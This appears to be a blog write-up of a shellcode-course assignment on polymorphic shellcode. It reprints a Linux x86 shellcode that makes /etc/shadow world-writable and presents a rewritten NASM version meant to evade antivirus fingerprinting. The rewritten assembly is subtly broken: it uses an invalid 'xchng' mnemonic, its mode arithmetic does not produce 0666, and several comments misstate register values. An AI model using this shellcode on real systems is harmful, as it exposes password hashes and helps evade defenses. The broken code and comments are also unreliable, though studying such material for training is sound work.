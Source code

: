 ```yaml
---
title:  "SLAE x86 Assignment 6: Polymorphic Shellcode"
header:
  teaser: "/assets/images/slae32.png"
  teaser_home_page: true
categories:
  - exploit dev
classes: wide
tags:
  - exploit dev
  - slae
---
```


Hey guys! Welcome back! In this post, we will look at assignment 6 of the SLAE x86 certification. Let's dive right in!

## Understanding The Objective ##
So what is Polymorphism? It is a technique used by exploit developers in order to prevent detection by anti-viruses, and make it hard for other security researchers to fingerprint and understand malicious shellcode. It is done by replacing instructions with similar ones, or by adding in arbitrary instructions that do not affect the operation of the shellcode, or both.

As you may imagine though, this will lead to an increase in size of the shellcode. With that being said, let's start with our first shellcode!

### Shellcode 1: [chmod(/etc/shadow, 0666) & exit()](http://shell-storm.org/shellcode/files/shellcode-556.php)
This shellcode will change the permissions of ```/etc/shadow``` to 666 by executing a ```chmod```. Written by ka0x, here is the original shellcode. It currently has a size of 33 bytes:
```c
#include <stdio.h>

/*
    linux/x86 ; chmod(/etc/shadow, 0666) & exit() 33 bytes
    written by ka0x - <ka0x01[alt+64]gmail.com>
    lun sep 21 17:13:25 CEST 2009

    greets: an0de, Piker, xarnuz, NullWave07, Pepelux, JosS, sch3m4, Trancek and others!

*/

int main()
{

    char shellcode[] =
            "\x31\xc0"          // xor eax,eax
            "\x50"              // push eax
            "\x68\x61\x64\x6f\x77"      // push dword 0x776f6461
            "\x68\x2f\x2f\x73\x68"      // push dword 0x68732f2f
            "\x68\x2f\x65\x74\x63"      // push dword 0x6374652f
            "\x89\xe3"          // mov ebx,esp
            "\x66\x68\xb6\x01"      // push word 0x1b6
            "\x59"              // pop ecx
            "\xb0\x0f"          // mov al,0xf
            "\xcd\x80"          // int 0x80
            "\xb0\x01"          // mov al,0x1
            "\xcd\x80";         // int 0x80

    printf("[*] ShellCode size (bytes): %d\n\n", sizeof(shellcode)-1 );
    (*(void(*)()) shellcode)();

    return 0;
}
```
Here is a polymorphic version:
```nasm
global _start

section .text
_start:

  ;clear registers
  lahf                                        ;load flags
  cmc                                         ;complement the carry flag (random stuff)
  xor ecx, ecx                                ;ecx=0
  mul ecx                                     ;eax and ebx=0

  ;chmod
  add al,0xf                                  ;syscall number for chmod
  push ecx                                    ;push nulls onto the stack
  mov dword [esp-4], 0x776f6461               
  mov dword [esp-8], 0x68732f2f               
  mov dword [esp-12], 0x6374652f              ;/etc/shadow
  sub esp, 12                                 ;stack adjustment
  mov esi, esp                                ;move pointer to args into esi
  xchng ebx, esi                              ;move pointer to args into ebx
  push word 0x22b                             ;push 555
  pop ecx                                     ;pop it into ecx
  add ecx, 0x49                               ;add 111 to ecx, which makes it 666
  int 0x80                                    ;syscall
  xor eax, eax                                

  ;exit
  mov al, 0x1
  int 0x80
```
